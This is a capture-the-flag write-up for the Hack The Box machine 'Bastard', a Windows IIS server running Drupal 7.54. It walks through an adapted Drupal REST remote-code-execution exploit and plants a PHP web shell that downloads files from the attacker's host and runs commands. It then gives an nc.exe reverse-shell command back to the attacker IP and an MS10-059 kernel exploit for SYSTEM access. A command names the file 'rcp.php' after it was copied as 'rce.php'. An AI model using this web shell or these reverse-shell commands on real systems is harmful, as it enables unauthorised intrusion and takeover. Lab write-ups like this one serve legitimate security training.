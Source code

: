 # Bastard [htb](https://app.hackthebox.com/machines/Bastard)
![bastared-01]()



## Recon


Lets add the target to our `/etc/hosts` file:

![hosts-02]()


Now we can scan the target with: 

`nmap -sC -sV -A -p- bastard.htb -oN nmap.result`

![nmap-res-03]()


We have the following:

+ An IIS v7.5 server on port 80.
  Seems like the robots.txt has some interesting directories. 

+ RPC on ports 135, 49154. 


Lets check the website. 


### HTTP 80

If we open our browsers and navigate towards `http://bastard.htb/`: 

![site-04]()

We see a login page, Iv'e tried SQLi, didnt really work for me. Creating an account doenst work, and the password reset feature doesnt work as well.  

If we take a look at the `robots.txt` file nmap found:

![robots-05]()


This `CHANGELOG.txt` file must be containing version numbers. 

![changelog-06]()


We can see the backend is `Drupal 7.54`. If we use look up vulnerabilities:

`searchsploit drupal 7`

![searchsploit-07]()


There's no shortage, Lets try the highlighted rce exploit. Copy it over with:

`cp /usr/share/exploitdb/exploits/php/webapps/41564.php rce.php`

Once you have the file in your current directory, open it:

![php-08]()

Looks like the script is searching for an endpoint in `rest_endpoint`. Lets see if we have this directory:

`http://bastard.htb/rest_endpoint`
 
![endpoint-fail-09]()

We dont, but if we go to `http://bastard.htb/rest`: 

![endpoint-success-10]()

Now we found the rest endpoint location, which means we can probably wxploit this. We just need to update the directory name in the exploit:

![update-exploit-11]()

I updated the endpoint path, filename, and the URL of our target. I also added some php code so we can
upload files and execute commands.

```php
<?php
        if (isset($_REQUEST['fupload'])) {
                file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.20/" . $_REQUEST['fupload']));

        };

        if (isset($_REQUEST['fexec'])) {
                echo "<pre>".shell_exec($_REQUEST['fexec'])."</pre>";

        };

?>
```
 

To run this, you might need to install curl-php with `apt install php-curl`. 

Then we can run the exploit with: 

`php rcp.php`

![execute-12]()


Now that the file has been uploaded, we can execute commands via the URL:

`http://bastard.htb/shell.php?fexec=dir`

![rce-13]()


Lets see if we can upload `nc.exe` to the target and get a reverse shell. 

Copy `nc.exe` to your working directory: 

`cp /usr/share/windows-resources/binaries/nc.exe .`


Start a python web server:

`python3 -m http.server 80`

Use the file upload feature to put in on the target: 

`http://bastard.htb/shell.php?fupload=nc.exe`


![nc-transfer-14]()


Looks like the file has been saved on the target. 

Lets start the local listener: 

`nc -lnvp 9001` 


Now we want to execute `nc.exe` with: 

`nc.exe -e cmd.exe 10.10.14.20 9001`

I use Burp to URL-encode this. 

If we send the payload in the URL:

`http://bastard.htb/shell.php?fexec=<payload>`


We get a shell: 

![shell-15]()

Lets try to get system! 

## Privilege Escalation

If we run `systeminfo`:

![sysinfo-16]()

We can see we are up againts a 2008 Windows server. If we take this output, save it to a file on our
Kali machine, and run [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) againts it, we can see the following:

![exploit-suggester-17]()

MS10-059 is a well known kernel exploit for Windows as it works more often then not, so its worth a shot. 

You can find the exploit [here](https://github.com/egre55/windows-kernel-exploits/blob/master/MS10-059%3A%20Chimichurri/Compiled/Chimichurri.exe), download it to your Kali machine. 

Next, start a python web server with: 

`python3 -m http.server 80`

and use the file upload feature we created before to upload the file to the target: 

`http://bastard.htb/shell.php?fupload=Chimichurri.exe`

![dir-18]()

Setup the netcat listener with:

`nc -lnvp 9002`


Finally, execeute the exploit with:

`Chimichurri.exe 10.10.14.31 9002`

Where the IP is your Kali machine, and `9002` the port your listening on. 


Execute, and this should yield you a shell as the system:

![root-19]()

